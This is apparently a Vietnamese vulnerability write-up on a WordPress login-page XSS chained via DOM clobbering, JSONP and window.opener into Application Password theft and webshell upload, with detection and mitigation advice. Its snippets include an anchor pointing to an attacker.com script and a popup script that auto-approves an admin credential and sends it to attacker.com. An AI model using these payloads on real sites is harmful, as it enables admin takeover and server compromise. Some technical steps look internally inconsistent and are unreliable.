



> Bài viết phục vụ nghiên cứu và phòng thủ. Các đoạn code chỉ dùng để chứng minh nguyên nhân và hiệu quả bản vá; bài viết không cung cấp payload hoàn chỉnh hoặc hướng dẫn khai thác mục tiêu thực tế.
{: .prompt-warning }


**CVE-2026-64638** bắt đầu từ một HTML sink nhỏ trên `wp-login.php`: username không tồn tại được đưa vào thông báo lỗi mà chưa qua `esc_html()`. Tác động của lỗi được khuếch đại bởi sự khác biệt giữa các parser, JavaScript `user-profile` chạy trong login context, DOM clobbering và REST JSONP.


`XSS2Shell` (CVE-2026-64638) không phải một lỗi XSS đơn lẻ. Đây là chuỗi khai thác kết hợp tinh vi giữa nhiều kỹ thuật client-side và cơ chế nội bộ của WordPress:

- **CVE-2026-64638** — Reflected XSS trước đăng nhập tại `wp-login.php` do thiếu escape ngữ cảnh HTML cho thông báo lỗi tên đăng nhập không tồn tại.
- **Parser Differential** — Xung đột bộ lọc giữa `wp_strip_all_tags()` và `wp_kses_post()` giúp lọt HTML markup dị biệt vào DOM mà không cần dùng đến thẻ `<script>`.
- **DOM Clobbering & REST JSONP** — Lạm dụng script `user-profile.js` bị load nhầm ở trang login để cướp biến toàn cục `ajaxurl`, ép jQuery nạp và thực thi script độc hại qua callback JSONP.
- **Same-Origin Method Execution (SOME)** — Điều khiển DOM từ cửa sổ XSS sang cửa sổ Admin đang đăng nhập qua `window.opener` để tự động phê duyệt Application Password, từ đó gọi REST API upload plugin chứa webshell (RCE).

Trên WordPress **4.7–7.0.2**, kẻ tấn công không cần tài khoản có thể đạt RCE dưới quyền web server khi quản trị viên tương tác (click link). WordPress xác nhận và vá lỗ hổng trong [GHSA-52p2-r8wf-jcrf](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-52p2-r8wf-jcrf); bản ghi CVE chấm điểm CVSS **8.9 High**.

| Thuộc tính | Kết quả đã xác minh |
| --- | --- |
| Thành phần | WordPress Core (Màn hình đăng nhập) |
| Entry point | Tham số đăng nhập tại `wp-login.php` |
| Điều kiện full chain | Cần người dùng có quyền Administrator tương tác (click link) |
| Phiên bản bị ảnh hưởng | 4.7–7.0.2 (Đã có bản vá backport cho tất cả các nhánh cũ) |
| Bản sửa | 7.0.3 (và các phiên bản point release tương ứng của nhánh cũ) |
| Tác động cuối | Cấp Application Password admin => Upload plugin PHP => RCE |

tiếp theo cùng xem chi tiết từng bước khai thác và cách bản vá khắc phục lỗ hổng này.

## Mô hình xử lý đúng của Login Error và Script Enqueue

Màn hình đăng nhập (`wp-login.php`) có nhiệm vụ xác thực người dùng và hiển thị thông báo lỗi khi đăng nhập thất bại. Đồng thời, nó enqueue một số script cần thiết cho giao diện.

Luồng đúng phải tuân thủ trình tự sau:




Ta có thể thấy có hai điều đảm bảo tính an toàn ở đây là:

> 1. mọi dữ liệu do người dùng nhập vào khi hiển thị lại trên HTML bắt buộc phải đi qua hàm escape theo đúng ngữ cảnh (`esc_html()`);
> 2. các script client-side (`user-profile.js`) không được phép tự ý thực thi logic nhạy cảm khi các DOM element phục vụ nó không tồn tại trên trang.

CVE-2026-64638 đã phá vỡ cả hai ý trên này.

## CVE-2026-64638: Lỗi thiếu escape tại màn hình đăng nhập

### Code trước bản vá

Trong WordPress 7.0.2, khi người dùng nhập tên đăng nhập không tồn tại, hàm `wp_authenticate_username_password()` trả về đối tượng `WP_Error` bằng cách đưa trực tiếp biến `$username` vào thông báo:

```php
return new WP_Error(
    'invalid_username',
    sprintf(
        __( 'The username <strong>%s</strong> is not registered.' ),
        $username
    )
);
```
*(Kiểm tra trực tiếp tại [WordPress 7.0.2, `wp-includes/user.php` dòng 181–191](https://github.com/WordPress/wordpress-develop/blob/7.0.2/src/wp-includes/user.php#L181-L191))*

Dù `$username` đã đi qua `sanitize_user()`, hàm này chỉ loại bỏ các ký tự không hợp lệ cho username (như khoảng trắng thừa, ký tự điều khiển), hoàn toàn **không mã hóa HTML**. Khi thông báo lỗi này được in ra giao diện `wp-login.php`, trình duyệt sẽ diễn giải mọi markup có trong `$username` thành thẻ HTML thực sự.

### Bản vá chứng minh giả thuyết (Proof by patch)

Trong WordPress 7.0.3, lập trình viên đã bao bọc `$username` trong `esc_html()`:

```diff
- $username
+ esc_html( $username )
```
*(Xem [source WordPress 7.0.3, `user.php`](https://github.com/WordPress/wordpress-develop/blob/7.0.3/src/wp-includes/user.php#L181-L191))*

---

## Parser Differential: Vượt qua các bộ lọc HTML của Core

Nếu chỉ chèn thẻ chuẩn như `<script>alert(1)</script>`, bộ lọc của WordPress hoặc WAF sẽ phát hiện và chặn ngay lập tức. Để lọt được mã HTML độc hại vào trang `wp-login.php`, kẻ tấn công lợi dụng **Parser Differential** — sự xung đột trong cách hiểu và xử lý chuỗi HTML giữa các bộ phân tích cú pháp (parser) khác nhau.

### 1. Bản chất xung đột giữa 3 lớp Parser

Trong luồng xử lý của WordPress và trình duyệt, một chuỗi dữ liệu đầu vào sẽ lần lượt đi qua **3 "bộ não" parser** với các quy tắc đọc khác nhau:

| Lớp Parser | Cơ chế xử lý | Cách nhìn nhận chuỗi HTML |
| :--- | :--- | :--- |
| **Lớp 1: `wp_strip_all_tags()`** | Dựa trên hàm `strip_tags()` của PHP (dùng Regex/chuẩn cú pháp cũ). | Bắt buộc thẻ HTML phải có khoảng trắng phân cách (dạng `<tag attr=...>`). |
| **Lớp 2: `wp_kses_post()`** | Dùng bộ lọc KSES parser của WordPress (dựa trên Whitelist). | Linh hoạt hơn, lọc và giữ lại các thẻ/thuộc tính HTML nằm trong danh sách an toàn (như `<a>`, `id`, `href`). |
| **Lớp 3: Trình duyệt (Browser)** | Dùng chuẩn HTML5 Parser của các trình duyệt hiện đại (Chrome/Firefox/Edge). | Rất linh hoạt, tuân theo quy tắc tự động sửa lỗi cú pháp (Auto-correction) để dựng DOM. |

---

### 2. Hành trình của Payload dị dạng qua 3 lớp xử lý

Kẻ tấn công không gửi HTML chuẩn, mà cố tình tạo một **payload dị dạng** (malformed payload) bằng cách thay khoảng trắng sau tên thẻ bằng dấu gạch chéo `/`:

```html
<a/id="ajaxurl" href="[https://attacker.com/evil.js](https://attacker.com/evil.js)">
```

Hãy nhìn cách payload này đi qua 3 lớp parser:

1. Tại Lớp 1 (`wp_strip_all_tags`): Do không có khoảng trắng giữa `a` và `id` (`<a/id=...`), bộ quét không nhận diện được đây là thẻ HTML chuẩn. Bị đánh lừa, nó coi đây chỉ là chuỗi văn bản bình thường và cho qua toàn bộ.

2. Tại Lớp 2 (`wp_kses_post`): Bộ lọc KSES quét lại chuỗi và nhận ra đây là thẻ `<a>` chứa thuộc tính id và href. Vì đây đều là các phần tử HTML nằm trong danh sách cho phép (whitelist), KSES đánh giá nó an toàn và tiếp tục cho qua.
    
3. Tại Lớp 3 (Trình duyệt của nạn nhân): Trình duyệt đọc chuỗi dị dạng này. Theo chuẩn HTML5, ký tự `/` nằm ngay sau tên thẻ `<a/` được trình duyệt coi như một khoảng trắng. Trình duyệt tự động sửa lỗi và dựng nên một phần tử DOM hoàn chỉnh trên trang:
```html
<a id="ajaxurl" href="[https://attacker.com/evil.js](https://attacker.com/evil.js)"></a>
```

---

## Chuỗi Gadget: Từ Reflected XSS client-side đến PHP RCE

Điểm tinh vi nhất của `XSS2Shell` là cách xâu chuỗi 5 gadget client-side để chuyển một Reflected XSS không phiên đăng nhập (ở màn hình login) thành khả năng thực thi code PHP trên máy chủ.



### Gadget 1: `user-profile.js` bị load nhầm & lỗi logic `undefined === undefined`

Trên trang đăng nhập (`wp-login.php`), WordPress tải script `user-profile.js` để phục vụ ô đo độ mạnh mật khẩu. Script này chứa logic kiểm tra mật khẩu gõ lại:

```javascript
// user-profile.js
if ( $pass1.val() === $pass2.val() ) {
    $.post( ajaxurl, { action: 'heartbeat', ... } );
}
```

Ở trang profile thật, `$pass1` và `$pass2` là các ô input. Nhưng ở trang `wp-login.php`, **cả hai ô này đều không tồn tại**.  
Khi gọi `.val()`, cả hai đều trả về `undefined`. Phép so sánh `undefined === undefined` trả về **`true`**! Script tưởng rằng mật khẩu đã khớp và lập tức kích hoạt đoạn code `$.post(ajaxurl, ...)`.

### Gadget 2: DOM Clobbering ghi đè `window.ajaxurl`

> **Ví dụ minh họa (DOM Clobbering):**  
> Trình duyệt có một tính năng cổ điển (HTML Named Properties): nếu một biến JavaScript toàn cục (`window.foo`) chưa được khai báo, nhưng trong trang HTML lại có một thẻ `<a id="foo" href="https://evil.com">`, trình duyệt sẽ **tự động biến `window.foo` thành chính thẻ HTML đó**! Khi JavaScript truy cập `window.foo` dưới dạng chuỗi, nó sẽ lấy giá trị của thuộc tính `href`.

Trang `wp-login.php` không khai báo biến `ajaxurl` (biến này chỉ có trong trang admin).  
Kẻ tấn công dùng **Parser Differential** từ bước trước để chèn một thẻ HTML sau vào thông báo lỗi:

```html
<a id="ajaxurl" href="https://victim.com/wp-json/?_jsonp=payload">
```

Khi `user-profile.js` chạy câu lệnh `$.post(ajaxurl, ...)`, JavaScript lấy `ajaxurl` từ thẻ `<a>` bị clobbering và biến request POST thành một request trỏ tới endpoint REST API có chứa tham số `_jsonp`.

### Gadget 3: REST API JSONP & jQuery Auto-evaluation

> **Ví dụ minh họa (JSONP Execution):**  
> JSONP là cơ chế cũ giúp lấy dữ liệu cross-domain bằng cách trả về một đoạn mã JavaScript có dạng `callback_name({...data...})`.  
> Khi jQuery thấy một URL chứa tham số callback JSONP (`_jsonp=...`), thay vì nhận dữ liệu AJAX thông thường, jQuery sẽ **tự động tạo một thẻ `<script src="...">`** để nạp file đó về và thực thi ngay lập tức trong bộ nhớ trình duyệt!

Khi jQuery gửi request tới endpoint `/wp-json/?_jsonp=payload`, WordPress REST API trả về response với header `Content-Type: application/javascript`. jQuery tự động thực thi đoạn mã JS này. Kẻ tấn công đã chính thức đạt được **Arbitrary JavaScript Execution (XSS)** trong Origin của site WordPress!

### Gadget 4: Same-Origin Method Execution (SOME) cướp Application Password

Kẻ tấn công đã có XSS ở trang login, nhưng trang login **chưa có session của Admin**. Làm sao cướp được quyền Admin?

Kẻ tấn công dụ Administrator click vào link độc hại do chúng tạo ra. Link này mở ra 2 cửa sổ:
1. **Cửa sổ chính (Parent Window):** Admin đang đăng nhập vào bảng quản trị `/wp-admin/`.
2. **Cửa sổ con (Popup/Child Window):** Mở trang `wp-login.php` chứa payload XSS2Shell ở trên.

Trong JavaScript, cửa sổ con có thể truy cập cửa sổ cha thông qua đối tượng `window.opener`. Vì cả hai cửa sổ cùng nằm trên một tên miền (Same-Origin), đoạn script XSS ở cửa sổ con có thể **trực tiếp điều khiển DOM của cửa sổ cha**:

```javascript
// Chạy từ cửa sổ con (Popup XSS)
window.opener.location = '/wp-admin/authorize-application.php?app_name=Exploit&success_url=https://attacker.com';

// Đợi trang load xong, cửa sổ con tự click nút "Approve" trên cửa sổ cha!
setTimeout(() => {
    window.opener.document.querySelector('#approve-app-button').click();
}, 2000);
```

Cơ chế này gọi là **Same-Origin Method Execution (SOME)**. Quản trị viên không hề hay biết cửa sổ con đang ngầm điều khiển cửa sổ cha của mình bấm nút cấp phép **Application Password** (API Key có đầy đủ quyền quản trị).


### Gadget 5: Từ Application Password đến Remote Code Execution (RCE)


Sau khi nhận được Application Password gửi về server của kẻ tấn công thông qua callback `success_url`:

1. Kẻ tấn công dùng Application Password gọi REST API (`/wp-json/wp/v2/posts`) tạo một bài viết nháp chứa payload.
2. Hoặc kẻ tấn công dùng trực tiếp credential này gửi request REST API upload một file `.zip` chứa **Plugin PHP độc hại** (Webshell).
3. WordPress giải nén plugin vào thư mục `wp-content/plugins/`. Kẻ tấn công truy cập vào file `.php` vừa upload và đạt **Remote Code Execution (RCE)** hoàn toàn trên server.

---

## Phạm vi ảnh hưởng: Tách biệt XSS và chuỗi RCE

| Phiên bản | Trạng thái | Ghi chú |
| --- | --- | --- |
| **< 4.7** | Không bị ảnh hưởng | REST API chưa được tích hợp mặc định vào Core |
| **4.7–7.0.2** | Bị ảnh hưởng full chain | Chứa đầy đủ Reflected XSS và các gadget client-side |
| **7.0.3+** | Đã được vá | Đã vá `esc_html()` tại `wp-includes/user.php` |
| **6.9.6+, 6.8.7+...** | Đã được vá | Các bản vá backport cho các nhánh phiên bản cũ |

## Đánh giá mức độ nghiêm trọng

| Định danh | CVSS v4.0 | Ý nghĩa |
| --- | --- | --- |
| **CVE-2026-64638** | **8.9 High** | Attack Vector: Network, Attack Complexity: High (cần môi trường & timing), User Interaction: Required (Admin click link), Scope: Unchanged, High Confidentiality/Integrity/Availability. |

Dù CVSS yêu cầu tương tác người dùng (`UI:R`), độ nghiêm trọng thực tế của chuỗi này cực kỳ cao vì nó cho phép một kẻ tấn công không có tài khoản (pre-auth) biến một cú click của Admin thành toàn quyền kiểm soát máy chủ web (Full Server Compromise).

---

## Phát hiện và điều tra dấu vết (Forensics)

### Dấu hiệu ở lớp HTTP (Access Logs)


Hãy chủ động tìm kiếm trong log web các chuỗi truy vấn có đặc điểm:

1. **POST tới `wp-login.php`:** Tham số `log` chứa các ký tự lạ hoặc thẻ HTML dở dang như `<a/id=`, `href=`.
2. **REST API JSONP Request:** Xuất hiện request GET/POST tới `/wp-json/` chứa tham số `_jsonp=` từ các trang công cộng.
3. **Tạo Application Password bất thường:** Request POST tới `/wp-json/wp/v2/users/me/application-passwords` hoặc lượt truy cập tới `authorize-application.php` với tham số `success_url` lạ.
4. **Upload Plugin qua API:** Request POST upload file ZIP tới REST API endpoint ngay sau thời điểm nghi vấn.

### Dấu hiệu trên Filesystem & Database

- Xuất hiện file `.php` hoặc thư mục lạ trong `wp-content/plugins/` hoặc `wp-content/uploads/`.
- Trong database (bảng `wp_usermeta`), xuất hiện các record `user_application_passwords` mới được tạo mà quản trị viên không hề thực hiện thủ công.

---

## Khắc phục

### 1. Cập nhật Core

Cập nhật WordPress lên phiên bản **7.0.3** hoặc các bản point release mới nhất của nhánh tương ứng:

```bash
wp core version
wp core update
wp core verify-checksums
```

### 2. Biện pháp khắc phục tạm thời (Mitigation)

Nếu chưa thể cập nhật ngay lập tức:

1. **Vô hiệu hóa Application Passwords:** Thêm filter sau vào `functions.php` của theme để chặn việc tạo API key qua giao diện web:
   ```php
   add_filter( 'wp_is_application_passwords_supported', '__return_false' );
   ```
2. **Khóa chức năng chỉnh sửa/cài đặt file (`DISALLOW_FILE_MODS`):** Thêm vào `wp-config.php` để ngăn kẻ tấn công upload plugin PHP kể cả khi lấy được quyền Admin:
   ```php
   define( 'DISALLOW_FILE_MODS', true );
   ```

---

## Bài học thiết kế hệ thống

`XSS2Shell` là minh chứng điển hình cho thấy một lỗ hổng nhỏ ở UI có thể gây sụp đổ toàn bộ hệ thống khi các giả định bảo mật (Trust Boundaries) bị phá vỡ:

- **Sanitization vs. Contextual Escaping:** `sanitize_user()` làm sạch dữ liệu đầu vào nhưng không thể thay thế cho `esc_html()` ở đầu ra. Dữ liệu hiển thị ở đâu bắt buộc phải escape theo đúng ngữ cảnh ở đó.
- **Biến toàn cục ngầm định (Implicit Globals):** Việc JS tin tưởng vào các biến toàn cục chưa được khởi tạo (`ajaxurl`) mở đường cho DOM Clobbering thông qua HTML Named Properties.
- **Tải Script sai ngữ cảnh (Enqueue Over-scoping):** Không bao giờ load các file JS phức tạp (`user-profile.js`) ở những trang công cộng không cần đến chúng.
- **Thiếu Re-authentication cho hành vi nhạy cảm:** Các thao tác cấp quyền sinh tử như tạo Application Password hay cài Plugin không nên phụ thuộc hoàn toàn vào phiên làm việc trình duyệt hiện tại mà phải yêu cầu Admin nhập lại mật khẩu (Re-auth).


## Kết luận

Bằng chứng từ source code và phân tích runtime cho phép kết luận rõ:

1. CVE-2026-64638 bỏ sót `esc_html()` khi hiển thị lỗi tên đăng nhập ở `wp-login.php`.
2. Parser Differential giúp chèn thẻ `<a id="ajaxurl">` vượt qua bộ lọc Core.
3. `user-profile.js` bị load sai vị trí và dính lỗi `undefined === undefined` kích hoạt request AJAX.
4. DOM Clobbering + JSONP ép jQuery thực thi đoạn code JS độc hại.
5. SOME qua `window.opener` cướp Application Password của Admin và upload plugin PHP đạt RCE.


Với đội ngũ vận hành: **Xác minh phiên bản → Nâng cấp lên 7.0.3 → Tắt App Passwords / Khóa File Mods → Kiểm tra log**. Với lập trình viên: Bài học lớn nhất là không bao giờ tin tưởng vào biến toàn cục client-side và luôn escape dữ liệu đúng ngữ cảnh tại sink.


## Tài liệu tham khảo

- [WordPress 7.0.3 Security Release](https://wordpress.org/news/2026/08/wordpress-7-0-3-release/)
- [GHSA-52p2-r8wf-jcrf / CVE-2026-64638](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-52p2-r8wf-jcrf)
- [Pwn.ai: XSS2Shell Technical Analysis](https://pwn.ai/blog/xss2shell)

